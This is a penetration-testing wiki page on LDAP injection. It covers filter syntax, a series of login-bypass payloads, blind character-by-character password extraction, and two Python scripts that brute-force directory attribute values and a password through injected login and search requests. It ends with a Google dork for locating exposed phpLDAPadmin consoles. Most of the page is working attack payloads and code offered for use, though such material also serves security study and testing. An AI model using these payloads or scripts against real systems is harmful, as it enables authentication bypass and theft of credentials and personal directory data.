 # LDAP Injection

## **LDAP**

LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it's possible to modify LDAP statements using a local proxy.

**Ports 389 y 636**

{% file src="../.gitbook/assets/en-blackhat-europe-2008-ldap-injection-blind-ldap-injection.pdf" %}

**Filter** = \( filtercomp \)  
**Filtercomp** = and / or / not / item  
**And** = & filterlist  
**Or** = \|filterlist  
**Not** = ! filter  
**Filterlist** = 1\*filter  
**Item**= simple / present / substring  
**Simple** = attr filtertype assertionvalue  
**Filtertype** = _'=' / '~=' / '&gt;=' / '&lt;='_  
**Present** = attr = \*  
**Substring** = attr ”=” \[initial\] \* \[final\]  
**Initial** = assertionvalue  
**Final** = assertionvalue  
**\(&\)** = Absolute TRUE  
**\(\|\)** = Absolute FALSE

For example:  
\(&\(!\(objectClass=Impresoras\)\)\(uid=s\*\)\)  
\(&\(objectClass=user\)\(uid=\*\)\)

You can access to the database, and this can content information of a lot of different types.

The backups of LDAP uses the extension _ldif_

**OpenLDAP**: If 2 filters arrive, only executes the first one.  
**ADAM or Microsoft LDS**: With 2 filters they throw an error.  
**SunOne Directory Server 5.0**: Execute both filters.

**It is very important to send the filter with correct syntax or an error will be thrown. It is better to send only 1 filter.**

The filter has to start with: _&_ or _\|_  
Example: _\(&\(directory=val1\)\(folder=public\)\)_

\(&\(objectClass=VALUE1\)\(type=Epson\*\)\)  
VALUE1 = _\*\)\(ObjectClass=\*\)\)\(&\(objectClass=void_

Then: _\(&\(objectClass=**\*\)\(ObjectClass=\*\)\)**_ will be the first filter \(the one executed\).

## Login Bypass

LDAP supports several formats to store the password: clear, md5, smd5, sh1, ssha, crypt. So, it could be that independently of what you insert inside the password, it is hashed.

```bash
user=*
password=*
--> (&(user=*)(password=*))
# The asterisks are great in LDAPi
```

```bash
user=*)(&
password=*)(&
--> (&(user=*)(&)(password=*)(&))
```

```bash
user=*)(|(&
pass=pwd)
--> (&(user=*)(|(&)(pass=pwd))
```

```bash
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
```

```bash
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
```

```bash
user=admin)(&)
password=pwd
--> (&(user=admin)(&))(password=pwd) #Can through an error
```

```bash
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSO then the user is admin and the password check is True.
```

```bash
username=*
password=*)(&
--> (&(user=*)(password=*)(&))
```

```bash
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))
```

[LDAP\_FUZZ](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20injection/Intruders/LDAP_FUZZ.txt)  
[LDAP Attributes](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20injection/Intruders/LDAP_attributes.txt)  
[LDAP\_authBypass](https://feelsec.info/wp-content/uploads/2018/11/LDAP_authBypass.txt)

## Blind LDAP Injection

You can iterate over the ascii letters, digits and symbols:

```bash
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
```

## Scripts

### **Discover valid LDAP fields**

LDAP objects **contains by default several attributes** that could be used to **save information**. You can try to **brute-force all of them to extract that info.** You can find a list of **\*\*\[**default LDAP attributes here**\]\(**[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP Injection/Intruder/LDAP\_attributes.txt](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/Intruder/LDAP_attributes.txt)**\)**.\*\*

```python
#!/usr/bin/python3
import requests
import string
from time import sleep
import sys

proxy = { "http": "localhost:8080" }
url = "http://10.10.10.10/login.php"
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

attributes = ["c", "cn", "co", "commonName", "dc", "facsimileTelephoneNumber", "givenName", "gn", "homePhone", "id", "jpegPhoto", "l", "mail", "mobile", "name", "o", "objectClass", "ou", "owner", "pager", "password", "sn", "st", "surname", "uid", "username", "userPassword",]

for attribute in attributes: #Extract all attributes
    value = ""
    finish = False
    while not finish:
        for char in alphabet: #In each possition test each possible printable char
            query = f"*)({attribute}={value}{char}*"
            data = {'login':query, 'password':'bla'}
            r = requests.post(url, data=data, proxies=proxy)
            sys.stdout.write(f"\r{attribute}: {value}{char}")
            #sleep(0.5) #Avoid brute-force bans
            if "Cannot login" in r.text:
                value += str(char)
                break

            if char == alphabet[-1]: #If last of all the chars, then, no more chars in the value
                finish = True
                print()
```

### **Special Blind LDAP Injection \(without "\*"\)**

```python
#!/usr/bin/python3

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
    print("[i] Looking for number " + str(i))
    for char in alphabet:
        r = requests.get("http://ctf.web??action=dir&search=admin*)(password=" + flag + char)
        if ("TRUE CONDITION" in r.text):
            flag += char
            print("[+] Flag: " + flag)
            break
```

## Google Dorks

```bash
intitle:"phpLDAPadmin" inurl:cmd.php
```

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection)

